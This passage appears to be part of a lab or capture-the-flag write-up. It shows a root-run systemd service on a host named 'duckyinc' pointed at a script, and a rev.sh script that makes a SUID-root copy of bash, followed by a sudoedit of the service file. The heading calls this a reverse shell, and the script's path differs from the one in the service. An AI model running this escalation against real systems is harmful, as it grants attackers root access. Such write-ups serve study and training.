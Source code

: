 <br>
<h3>duckyinc.service</h3>


```bash
server-admin@duckyinc:/$ ls -lah /etc/systemd/system/duckyinc.service
-rw-r--r-- 1 root root 388 Aug 12  2020 /etc/systemd/system/duckyinc.service
```

<br>

```bash
server-admin@duckyinc:/$ cat /etc/systemd/system/duckyinc.service
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash /dev/shm/rev.sh
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target

```

<br>
<h3>Reverse Shell</h3>

```bash
server-admin@duckyinc:/tmp$ nano rev.sh
```

<br>

```bash
server-admin@duckyinc:/tmp$ chmod +x rev.sh
```

<br>

```bash
server-admin@duckyinc:/tmp$ cat rev.sh
#!/bin/bash

cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash
```

<br>

```bash
server-admin@duckyinc:/tmp$ sudoedit /etc/systemd/system/duckyinc.service
```

<br>

